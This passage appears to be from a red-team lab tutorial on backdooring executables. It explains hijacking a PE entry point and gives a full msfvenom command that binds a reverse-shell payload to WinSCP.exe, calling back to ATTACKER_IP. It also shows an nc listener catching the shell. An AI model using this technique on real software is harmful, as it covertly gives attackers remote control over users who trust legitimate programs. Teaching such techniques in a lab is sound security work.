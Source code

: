 You could, for example, change the entry point in the PE header so  that your shellcode executes right before the program and then redirect  the execution back to the legitimate program once it is finished. This  way, when the user clicks the resulting executable, your shellcode will  get silently executed first and continue running the program normally  without the user noticing it.

### Binding with msfvenom

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload  silently. The method used by msfvenom injects your malicious program by  creating an extra thread for it, so it is slightly different from what  was mentioned before but achieves the same result. Having a separate  thread is even better since your program won't get blocked in case your  shellcode fails for some reason.

For this task, we will be backdooring the WinSCP executable available at `C:\Tools\WinSCP`.

To create a backdoored WinSCP.exe we can use the following command on our Windows machine:

**Note:** Metasploit is installed in the Windows machine for your convenience,  but it might take up to three minutes to generate the payload (the  produced warnings can be safely ignored).

- **AttackBox**        

```shell-session
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
        
```

The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter  payload without the user noticing it. Before anything else, remember to  set up an `nc` listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse  shell back at you while continuing to execute WinSCP.exe for the user:

| ![winscp execution](./assets/06c3bd06d935a937b2af7dace6a41a27.png) | ➜    | AttackBox                `user@attackbox$ nc -lvp 7779       Listening on 0.0.0.0 7779 Connection received on 10.10.183.127 49813 Microsoft Windows [Version 10.0.17763.1821] (c) 2018 Microsoft Corporation. All rights reserved. C:\Windows\system32>        ` |
| ------------------------------------------------------------ | ---- | ------------------------------------------------------------ |
|                                                              |      |                                                              |
